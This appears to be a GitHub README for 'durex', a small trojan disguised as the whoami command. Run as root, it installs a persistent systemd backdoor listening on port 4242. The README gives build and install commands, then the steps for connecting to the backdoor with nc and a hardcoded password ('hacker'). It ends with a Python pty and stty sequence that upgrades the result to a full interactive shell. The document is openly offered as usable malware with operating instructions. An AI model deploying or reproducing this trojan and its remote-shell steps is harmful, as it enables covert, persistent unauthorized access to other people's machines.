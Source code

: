 # durex

A really simple trojan, disguised as whoami
- installs a backdoor when launched as root
- backdoor is accessible with `nc <INFECTED_MACHINE_IP> 4242`
- rebooting doesn't remove the backdoor

## Usage

```bash
# build durex
make

# check installation
make check

# uninstall backdoor
make reset

# launch and install backdoor
sudo ./durex

# launch and do nothing
./durex
```

## Connecting to the backdoor

```bash
# connect with nc
nc localhost 4242

# input password
hacker

# launch shell
shell

# enable xterm features
python  -c "import pty;pty.spawn('/bin/bash')"
bg
export term=XTERM
stty raw -echo;fg
```

## Refs

* [systemd service](https://linuxconfig.org/how-to-write-a-simple-systemd-service)
* [easy systemd](https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6)
